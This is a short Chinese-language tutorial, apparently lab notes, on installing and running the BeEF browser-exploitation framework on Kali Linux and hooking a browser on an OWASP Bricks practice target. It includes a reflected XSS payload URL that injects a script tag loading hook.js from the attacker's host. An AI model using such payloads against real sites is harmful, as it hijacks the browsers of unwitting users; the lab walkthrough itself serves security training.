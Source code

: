 # 04 xss——BeEF-xss

## 安装

该工具安装在kali系统下。

```bash
sudo apt-get install beef-xss -y
```

修改配置文件中的用户名和密码，否则启动会失败。

```bash
sudo vim /etc/beef-xss/config.yaml

beef:
	........
	
	credentials:
		user:    "root"
		passwd:  "1"

	........
```

设置软连接

```bash
sudo ln -s /usr/share/beef-xss/beef /usr/bin/beef
```

启动

```bash
sudo beef
```

或者通过下面方式启动

```bash
sudo beef-xss                                                        
```

进入页面

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820173842.png)

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820174337.png)

## 使用示例

可以通过`http://10.4.7.7:3000/hook.js`查看hook.js源码。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820182335.png)

查看owaspbwa top 10靶机相关页面的状态

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820180709.png)

构造payload并开始攻击

```
http://10.4.7.5/owaspbricks/content-2/index.php?user=harry%3Cscript%20src=http://10.4.7.7:3000/hook.js%3E%3C/script%3E
```

进入beef页面查看结果

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820182718.png)

可以看到在这里出现了`10.4.7.5`的目标机器。

